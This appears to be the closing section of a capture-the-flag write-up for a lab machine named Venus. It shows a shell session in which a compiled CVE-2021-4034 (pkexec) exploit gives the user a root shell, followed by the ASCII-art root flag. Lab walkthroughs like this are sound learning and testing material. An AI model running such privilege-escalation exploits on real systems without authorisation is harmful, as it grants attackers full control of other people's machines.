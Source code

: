 ![Venus](root_flag.png)





```
[magellan@venus CVE-2021-4034-main]$ ./cve-2021-4034
sh-5.1# whoami
root
sh-5.1# cd /root
sh-5.1# cat root_flag.txt 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Congratulations on completing Venus!!!
If you have any feedback please contact me at SirFlash@protonmail.com
```